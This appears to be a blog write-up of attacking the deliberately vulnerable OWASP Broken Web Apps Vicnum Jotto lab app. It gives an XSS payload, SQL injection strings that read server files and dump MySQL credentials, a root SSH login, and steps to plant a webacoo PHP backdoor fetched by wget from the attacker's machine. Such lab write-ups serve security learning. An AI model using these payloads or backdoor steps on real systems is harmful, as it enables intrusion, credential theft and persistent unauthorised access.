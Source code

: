 +++
title = "OWASP Broken Web Apps Vicnum - Jotto"
slug = "owasp-broken-web-apps-vicnum-jotto"
default_language = "en"
[taxonomies]
categories=["vulnerable-web-app"]
tags=["web", "owasp"]
+++

I started off just playing the game to see what happens moving through the workflow.  After guessing the word in 43 tries I noticed that the count is being passed from the success page over to the scoreboard, much like its sibling application this ends up being something we can modify in transit.

The second time round I made a wordlist of the second word to guess once I figured out it had an r in it:

```bash
cewl -w wordlist.txt -v -d 0 -m 5 http://www.wordbyletter.com/words_starting_with.php?q=r
```

Luckily it did end up starting with an r, that way I didn't have to play the annoying game again just to modify my number of guesses.

After getting to the scoreboard page I noticed that the name get parameter is being injected into an HTML string on the page, try making this the name:

```javascript
<script>alert(1)</script>
```

into the URL for the name GET parameter worked.

The name parameter also seems like it might be vulnerable to SQLi

Doing a quick:

```sql
' or 1 = 1 #
```

shows query results for all users on the page, so we know its injectable.

Now to get something a little more juicy:
```sql
union all select load_file('/etc/apache2/apache2.conf'),2,3,4#
```

This will return the entire apache web config in its entirety.

I suppose just like its sibling lets break in:

```sql
'  union all select user,password,3,4 from mysql.user#
```

As in the sibling application this page can be used to get root's password: https://www.hashkiller.co.uk/ which found the root password in question: owaspbwa, this matches the readme when the VM boots up.

Next lets ssh to the VM:

```bash
ssh root@ip
pw: owaspbwa
```

Now for a persisted backdoor, webacoo worked for the last one, why not use it again.

```bash
webacoo -g -o bd.php
```

Next fire up SimpleHTTPServer in Parrot and change directory to the web root /var/www on the VM and run:

```bash
wget http://iptoparrot:8000/bd.php
```

Then to test things out:

```bash
webacoo -t -u http://ip/bd.php
```
